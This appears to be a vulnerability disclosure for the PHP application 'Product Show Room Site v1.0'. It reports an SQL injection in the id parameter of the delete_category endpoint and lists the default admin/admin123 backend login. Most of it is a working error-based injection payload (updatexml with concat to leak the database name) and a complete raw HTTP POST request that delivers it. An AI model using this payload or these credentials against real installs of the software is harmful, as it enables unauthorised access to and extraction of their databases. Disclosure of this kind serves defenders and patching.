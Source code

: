 # Product Show Room Site v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15370/product-show-room-site-phpoop-free-source-code.html

Vulnerability File: /psrs/classes/Master.php?f=delete_category

Vulnerability location: /psrs/classes/Master.php?f=delete_category, id

Current database name: hsrs_db ,length is 7

[+] Payload: id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /psrs/classes/Master.php?f=delete_category HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/171827310-572ad625-d46b-46a4-8413-8f699f00cabb.png)

